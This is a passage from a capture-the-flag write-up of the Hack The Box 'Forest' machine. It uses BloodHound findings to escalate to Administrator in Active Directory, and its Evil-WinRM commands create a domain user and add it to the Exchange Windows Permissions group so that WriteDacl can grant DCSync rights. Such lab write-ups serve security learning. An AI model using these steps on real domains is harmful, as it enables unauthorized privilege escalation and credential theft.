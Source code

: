 From bloodhound, we can also see that the Account Operators group has a ```generic all``` permissions on the Exchange Windows Permissions group, which in turn has the ```WriteDacl``` permissions on HTB.local that contains the Adminstrator user.

![Permissions graph](https://github.com/joelczk/writeups/blob/main/HTB/Images/Forest/permissions_graph.png)

### Privilege Escalation to adminstrator

From the enumeration earlier, we know that svc-alfresco is part of the Account Operators group that has ```GenericAll``` permissions on the Exchange Windows Permissions Group. This means that the user svc-alfresco is able to create domain users. Hence, we will first create new domain users.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net users hacked P4ssword /add
The command completed successfully.
```

Next, we will have to add the user to our Exchange Windows Permissions group. Using ```net user hacked```, we can see that the user ```hacked``` is now part of the Exchange Windows Permissiosn group

The reason why we need to add the user to the Exchange Windows Permissions Group is because the group has WriteDacl right on HTB.local, which can be abused to grant DCSync permissions to the user.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" hacked /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user hacked
User name                    hacked
...
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```
